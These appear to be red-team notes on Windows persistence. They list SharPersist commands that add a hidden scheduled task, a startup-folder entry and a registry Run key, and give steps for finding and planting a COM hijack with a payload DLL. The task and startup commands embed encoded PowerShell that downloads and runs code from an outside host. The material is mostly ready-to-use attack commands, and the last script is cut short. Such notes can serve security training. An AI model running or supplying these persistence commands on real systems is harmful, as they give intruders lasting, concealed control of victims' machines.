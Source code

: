 ```bash
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -n "Updater" -m add -o hourly
```

#### Startup Folder

```bash
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBuAGkAYwBrAGUAbAB2AGkAcABlAHIALgBjAG8AbQAvAGEAIgApACkA" -f "UserEnvSetup" -m add
```

#### Registry AutoRun

```bash
# Upload a file.exe to C:|ProgramData\ or another directory and rename to Updater.exe 
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```

#### Hunting for COM Hijacks

1. Open Process Monitor
2. Filter Operation is RegOpenKey
3. Result is NAME NOT FOUND
4. Path ends with InprocServer32
5. Find one that's loaded semi-frequently but not so much so or loaded when a commonly used application

Example:

HKCU\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32 is loaded by C:\Windows\System32\DllHost.exe

```powershell
Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

> To clean-up a COM hijack, simply remove the registry entries from HKCU and delete the DLL.

```powershell
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
```